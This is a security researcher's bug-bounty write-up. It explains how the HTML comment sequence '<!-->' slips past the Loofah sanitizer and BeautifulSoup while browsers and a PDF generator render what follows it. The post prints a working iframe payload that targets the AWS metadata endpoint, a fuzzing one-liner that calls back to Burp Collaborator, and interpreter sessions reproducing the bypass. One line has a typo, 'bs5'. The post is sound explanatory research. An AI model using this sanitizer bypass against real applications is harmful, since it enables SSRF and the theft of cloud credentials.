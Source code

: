 ```yaml
---
layout: post
title:  "Opinions are like Bugs - Every Spec has one."
date:   2023-07-24
categories: bugbounty
---
```


Opinions are like Bugs - Every Spec has one. 

*When two specifications have differing opinions on how something should be parsed: here be dragons.*

This writeup is about a bug I first discovered over a year go and have found a number of times since. There's nothing particularly novel about the vulnerability itself, but I think there's an interesting lesson in here about why it exists, and about where to look for other bugs that exist for the same reason. 

---

The first time I spotted this issue it was in a sanitizer library for ruby called [loofah](https://github.com/flavorjones/loofah). This is a tool commonly used in Ruby on Rails projects, and has shipped as a part of Rails core since v4.2. That finding let me escalate a strictly limited html injection to RCE. Below is what the html injection payload looked like, you may be able to guess how it worked.

```
<!--><iframe src=http://169.254.169.254/latest/meta-data></iframe>-->
```

The application I was testing allowed me to generate reports and export them as PDFs. After generating a sample and examining the metadata I knew what pdf generator was being used to accomplish this. A quick test of that tool proved that an SSRF should be possible if I could inject an iframe, as the generator would attempt to populate that iframe by loading it from the server. Injecting an image tag pointing to a burp collab resulted in a callback from an aws EC2 ip, so my plan was to try pulling IAM creds from the aws metadata instance. At first this failed. 

All of the inputs I could control were validated against a strict allowlist of safe html tags and attributes. Things like text formatting, images, and links were allowed but iframes were not.

I spent some time mapping out allowed tags and attributes, but the results didn't look very promising. After a lot of testing I had exhausted all obvious options, but I was so close I couldn't stop yet. One final possibility was still tickling my brain. 

I wasn't totally sure what was being used to scrub my input, and I wanted to thoroughly test the sanitizer before calling it complete. I knew it was a ruby on rails application, and that rails used Loofah for scrubbing out unwanted input. I pulled open rails console and starting pushing on Loofah in every direction trying to find interesting behaviour. Of all the tags that were allowed by the application I was testing, the one that stood out the most was the HTML comment tag `<!-- -->`. I wondered if it might be possible to leverage a parsing differential such that loofah would see the iframe as a comment, but the pdf generator would not. 

The test was fairly simple to implement. I generated a wordlist using the following oneliner, and used this list in my report. I expected most of them to be considered comments by the PDF generator, but if any got passed I should get a nudge on my burp collaborator. 

```
ruby -e "0.upto(65535) {|i| puts '<\!--' << i << '<iframe src=burpcollap/?id=' << i << '></iframe>-->'}"
...
<!--[<iframe src=burpcollab/?id=91></iframe>-->
<!--\<iframe src=burpcollab/?id=92></iframe>-->
<!--]<iframe src=burpcollab/?id=93></iframe>-->
<!--^<iframe src=burpcollab/?id=94></iframe>-->
<!--_<iframe src=burpcollab/?id=95></iframe>-->
...
```

To my surprise, I got a hit on `burpcollab/?id=62`, the codepoint for the greater-than character `>`. This allowed me to bypass the sanitizer, inject an iframe, steal creds, and escalate to RCE. But... WHY?

![image](https://media4.giphy.com/media/zrmTqopWm4W5cPg8Ah/giphy.gif?cid=ecf05e47y5ni6z9jd9m44cw1nvjr16cx3cpbw5zi8tmblrgl&ep=v1_gifs_search&rid=giphy.gif&ct=g)

# But why?

To investigate what was going on I pulled open my ruby interpreter to see what this input looked like from Loofah's perspective. I started by defining a loofah scrubber that would take an html fragment and remove any instances of the <iframe> tag.

```
irb(main):001:0> require 'loofah'
=> true
irb(main):002:1* iframe_scrubber = Loofah::Scrubber.new do |node|
irb(main):003:1*   node.remove if node.name == "iframe"
irb(main):004:0> end
```
I tested this on a normal iframe, and it behaved as expected:
```
irb(main):005:0> html = "<h1>iframe test</h1><iframe></iframe>"
irb(main):006:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1>"
```
Then I tested it with a normal comment:
```
irb(main):007:0> html = "<h1>iframe test</h1><!--<iframe></iframe>-->"
irb(main):008:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--<iframe></iframe>-->"
```
And finally, with the modified comment discovered by our fuzzer:
```
irb(main):009:0> html = "<h1>iframe test</h1><!--><iframe></iframe>-->"
irb(main):010:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--><iframe></iframe>-->"
```
As expected, Loofah see's the iframe tag in the last example as being safely tucked inside a comment. However, when this exact same code is passed to the pdf generator, the iframe is rendered. This means that whatever is parsing the HTML in the pdf generator parses this in such a way that the iframe tag is not inside the comment. 

Even better, the html parsers in modern browsers agree with the pdf generator. Open a page with this html in chrome, firefox, edge, etc, and you'll see a rendered iframe:
```
<!--><iframe src=about:blank></iframe>-->
```

At first glance, this seemed like a bug in the html parser that Loofah is using, but after some investigation it turned out to be something much worse: Competing specs with different opinions. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c57b60f0-9e28-496b-b6e5-00062a7daba1)

---

# Competing Specs

Loofah uses an html parsing framework called Nokogiri, which is built on libxml2. Libxml2 is a very popular xml (and html) parsing library that tries to be compliant with the [W3C html 5 specification](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html). The problem is that this library is very old, and pieces of it's parsing functionality are much older than the most recent version of the standard. 

The library's comment parsing functionality, for example, was [implemented in 2000](https://github.com/GNOME/libxml2/blame/75693281389aab047b424d46df944b35ab4a3263/HTMLparser.c#L3455). At that time, the specs guidance for parsing comments was as follows:
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/d7da43dd-f4cf-4b26-b143-1cbd3d6a3827)

If the tokenizer encountered the opening comment sequence `<!--` it should just consume everything up to the closing comment sequence `-->` and treat everything therein as a comment. This means that, given our sequence `<!-->`, the `>` would be ignored and everything up to `-->` would be a comment. This explains why Loofah saw our iframe as being inside a comment. 

Eventually, the rules changed and as of the 2010 version of the specification the rules for parsing comments were as follows:

- We start in "tag open state," and we encounter an `!`, so we swtich to "markup declaration state"
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/36a44f08-c53e-4d79-9556-2d8823927ee0)

- If the next two characters are `--` we switch to `comment start state`
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/7f3ed1e9-8d25-441f-982b-4e92039d8412)

- And finally, if the very next character is `>`, we throw a parse error and switch back to "data state" instead of "comment state".
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c2cc572c-1f43-4982-bd75-ef2d11effbf9)

Now, given the sequence `<!-->`, the comment is opened and then immediately closed. Everything following the `>` is outside the comments. This explains why the PDF generator, and modern browsers, render the iframe. 

---

This issue has been patched in the most recent version of libxml2, but I still find it frequently. Any HTML parsing framework that depends on an old version of libxml2, or was developed against an older version of the HTML5 spec is likely vulnerable to this bug. For example, beautiful soup is another parsing framework that follows the old rules for parsing comments: 

```
>>> import bs5
>>> soup = bs4.BeautifulSoup("<iframe></iframe>", "html.parser")
>>> soup.iframe
<iframe></iframe>
>>> soup = bs4.BeautifulSoup("<!-- <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>> soup = bs4.BeautifulSoup("<!--> <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>>
```
Note that the last two examples, the normal comment and the abruptly closed comment, are treated the same. This has been reported but no fix has been implemented as yet. 

---

# Lesson

The lesson I learned from this research is that when you're dealing with complex functionality that depends on a specification like an RFC, you should read it. These documents can be a slog but the more you read the better you'll become at parsing and understanding them. There are so many subtle details hidden away in standards that are just waiting to be stumbled on by the right hacker with the right mindset. Keep your eyes peeled for ambiguous language, major changes across versions, and situations where more than one standard exists and your input is being consumed by both of them at different times.
